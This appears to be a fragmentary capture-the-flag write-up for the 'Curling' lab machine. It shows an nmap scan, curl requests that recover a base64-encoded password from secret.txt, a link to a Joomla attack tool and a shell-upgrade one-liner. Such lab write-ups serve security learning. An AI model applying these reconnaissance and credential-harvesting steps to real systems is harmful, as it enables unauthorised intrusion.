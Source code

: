 ```
nmap -sV -sC curling.htb -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-18 18:22 CEST
Nmap scan report for curling.htb (10.10.10.150)
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```


if we curl the 
`curl http://curling.htb/secret.txt`
```
</body>
      <!-- secret.txt -->
</html>
```

```
curl http://curling.htb/secret.txt
Q3VybGluZzIwMTgh

```

```
echo Q3VybGluZzIwMTgh | base64 -d 
Curling2018!
```

Now we have what looks like a password 

```
https://github.com/dietcokesec/joom3y.git
```

python3 -c 'import pty; pty.spawn("/bin/bash")'